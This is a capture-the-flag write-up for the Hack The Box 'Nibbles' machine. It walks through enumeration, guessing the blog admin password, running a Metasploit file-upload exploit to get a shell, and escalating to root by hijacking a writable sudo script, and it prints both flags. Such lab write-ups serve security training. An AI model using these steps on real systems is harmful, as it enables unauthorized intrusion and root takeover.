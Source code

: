 # [nibbles](https://app.hackthebox.com/machines/121) | Cyanyde

Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most.

## Recon I

### nmap

`sudo nmap -A <target ip> -T5 -vv -oN nibblescan`

- We can use nmap to enumerate service versions and other basic information
- The following port information is returned:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

### Manual Testing

- We use *curl* to get the source of the webpage(s) being served on port 80 from the target
    - `curl http://<target ip>`
    - There is a line in the output that says `<!-- /nibbleblog/ directory. Nothing interesting here! -->`
    - Naturally, we should `curl http://<target ip>/nibbleblog/` next
- The /nibbleblog/ directory has a much more fleshed out HTML page
- Opening the page in a web browser brings us to a blog page titled **Nibbles Yum yum**
- There is an exploit available for Nibbleblog [here](https://www.rapid7.com/db/modules/exploit/multi/http/nibbleblog_file_upload/)
    - Taking a look at the page, there is a metasploit module that allows us to use this

## Exploitation I

- `msfconsole` to open Metasploit
- `search nibbleblog` to find the module
- `use <module number>` or `use exploit/multi/nibbleblog_file_upload`
- Looking at the options for the exploit, we see that we must supply our own username and password, so we need to go back and find credentials we can use for our exploit

## Recon II

- Used a tool like *gobuster* to fuzz for other subdirectories
- `gobuster dir -u http://10.129.200.170/nibbleblog/ --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt`
- These are some interesting subdirectories I found:
    - /README - does not resolve
    - /admin - accessible; is a browsable directory
    - /admin.php - accessible; is a login page
    - /content - accessible; is a browsable directory
    - /index.php - accessible; is the original page we are served when visiting /nibbleblog/
    - /languages - accessible; directory listing of .bit files
    - /plugins - accessible; browsable directory
    - /themes - accessible; browsable directory
- /nibbleblog/content/private/
    - Contains a users.xml file
        - Opening it shows that *admin* is a registered user
        - It also shows the parameters for a blacklist, which suggests that our IP will be added to the blacklist if our fail count gets too high
- Let's go back to the login page we found at nibbleblog/admin.php and try a few credentials
    - Trying out a few combinations with *admin* as the username eventually leads us to nibbles, which gets us into the admin portal

## Exploitation II

- With these credentials, I can go back and use the Metasploit module
- `show options` to see required parameters
- `set RHOST <target ip>`
- `set LHOST <your ip>`
- `set USERNAME admin`
- `set PASSWORD nibbles`
- `set TARGETURI /nibbleblog/`
- `run`

I now have a Meterpreter shell in the system.

## Post-Exploitation

- I am looking for a user.txt flag, so I'll navigate to the user home directory at `/home/nibbler/`

>  <details><summary>The directory contains a <code>user.txt</code> with our flag: </summary>79c03865431abf47b90ef24b9695e148</details>

### Privilege Escalation

- I want to get a root flag next, so I'll explore some avenues of privilege escalation
- `sudo -l` to show me what I can run as sudo with the nibbler account
    - For some reason, I can run monitor.sh with no password
    - I also have write access to this file
- I'm going to go ahead and use `echo >` to replace the file's contents with my own
    - Using `echo usermod -aG sudoers nibbler > monitor.sh` I can effectively make the file execute a command that needs sudo rights, giving myself root access
        - The sudoers group does not exist
    - If I `cat /etc/group` I can see a list of groups on the system
    - I use the same method and instead add myself to the group *root*
    - This seems to also not work because there is no TTY
- Let me instead `echo 'bash -p'` to `monitor.sh`
    - Running this as sudo gives me root access
- I can then simply `cd /root` and there is a root.txt within that directory

>  <details><summary><code>root.txt</code> contains: </summary>de5e5d6619862a8aa5b9b212314e0cdd</details>

